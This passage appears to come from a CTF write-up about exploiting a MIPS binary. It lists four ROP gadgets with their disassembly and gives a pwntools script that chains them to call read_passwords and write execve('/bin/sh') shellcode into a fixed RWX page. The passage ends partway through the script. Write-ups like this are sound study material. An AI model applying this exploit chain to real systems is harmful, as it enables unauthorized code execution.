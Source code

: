 To achieve code execution, I decided to reach control only of `$a0` and `$a1`,
which is then sufficient to call `read_passwords(buffer, length)`, and have a
shellcode copied into one of the fixed RWX location.

After seeing too many ROP tools for MIPS fail, I simply used `objdump -D` to
find the following gadgets:

  * 0x00403ba4: Control `$s2` from a value given from the stack
{% highlight bash %}
.text:00403BA4 lw      $ra, 0x28+var_4($sp)
.text:00403BA8 lw      $s2, 0x28+var_8($sp)
.text:00403BAC lw      $s1, 0x28+var_C($sp)
.text:00403BB0 lw      $s0, 0x28+var_10($sp)
.text:00403BB4 jr      $ra
{% endhighlight %}

  * 0x403bbc: Use `$s2` to control `$v0`
{% highlight bash %}
.text:00403BBC lw      $ra, 0x28+var_4($sp)
.text:00403BC0 move    $v0, $s2
.text:00403BC4 lw      $s1, 0x28+var_C($sp)
.text:00403BC8 lw      $s2, 0x28+var_8($sp)
.text:00403BCC lw      $s0, 0x28+var_10($sp)
.text:00403BD0 jr      $ra
{% endhighlight %}

  * 0x00403b98: Use `$v0` to control `$a0`
{% highlight bash %}
.text:00403B98 move    $a0, $v0
.text:00403B9C bnez    $s0, loc_403B7C
.text:00403BA0 move    $a1, $zero
{% endhighlight %}

  * By re-using gadget@0x00403ba4 with 0x004038e8, we use `$s2` to control `$a1`
{% highlight bash %}
.text:004038E8 move    $a1, $s2
.text:004038EC lw      $ra, 0x30+var_4($sp)
.text:004038F0 lw      $s4, 0x30+var_8($sp)
.text:004038F4 lw      $s3, 0x30+var_C($sp)
.text:004038F8 lw      $s2, 0x30+var_10($sp)
.text:004038FC lw      $s1, 0x30+var_14($sp)
.text:00403900 lw      $s0, 0x30+var_18($sp)
.text:00403904 sltiu   $v0, 1
.text:00403908 jr      $ra
{% endhighlight %}

We can chain those 4 gadgets to entirely control `$a0` and `$a1` and then call
`read_passwords` to write a `execve('/bin/sh')` shellcode into one of fixed RWX pages (I've
chosen 0x004a8a00).


{% highlight python %}
log.info("preparing ropchain")
sfp = p32(0x004a8000)
set_s2 = p32(0x403BA4)
set_v0 = p32(0x403BBC)
set_a0 = p32(0x403B98)
set_a1 = p32(0x4038e8)
read_passwords = p32(0x004015E8)
a0 = p32(0x004a8a00)
a1 = p32(0x100)
p = 'YOLO'*2 + sfp
p+= set_s2 + 'YOLO'*8 + a0 + set_v0 + p32(0)*9 + set_a0 + "YOLO"*8 + 'ZZZ'
p+= set_s2 + 'YOLO'*8 + a1 + set_a1 + 'YOLO'*10 + 'Z'*3
p+= read_passwords + "YOLO"*9 + p32(0x4a8a00)
payload = p.ljust(303, "Z")
r.send(payload[:102])
